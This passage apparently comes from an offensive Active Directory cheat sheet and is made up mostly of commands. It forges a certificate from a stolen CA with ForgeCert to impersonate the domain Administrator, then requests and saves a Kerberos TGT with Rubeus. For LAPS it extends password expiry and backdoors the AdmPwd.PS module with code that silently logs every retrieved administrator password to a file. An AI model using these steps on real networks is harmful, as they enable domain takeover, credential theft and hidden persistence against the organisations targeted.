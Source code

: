 #### Transform cert to pfx
- Set a password, password
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Create a forged certificate
```
.\ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "password" --Subject "CN=User" --SubjectAltName "Administrator@<DOMAIN>" --NewCertPath fake.pfx --NewCertPassword "password"
```

#### Create a TGT
```
cat cert.pfx | base64 -w 0
.\Rubeus.exe asktgt /user:Administrator /domain:<DOMAIN> /certificate:<BASE64 CERT> /password:password /nowrap
```

#### Write TGT kirbi
```
[System.IO.File]::WriteAllBytes("C:\Users\public\<USER>.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```
 
#### Then load TGT and request TGS or access systems as this user.

## LAPS
- The password will still reset if an admin uses the Reset-AdmPwdPassword cmdlet; or if Do not allow password expiration time longer than required by policy is enabled in the LAPS GPO.
- Must run from system

### Password access
#### Change the password expiration date into the future
```
Set-DomainObject -Identity <COMPUTER> -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

### Backdoor
- https://github.com/GreyCorbel/admpwd
- add the following after the first line.
- Recompile and replacet the dll ```C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\```
```
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);

var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);

WriteObject(pi);
```
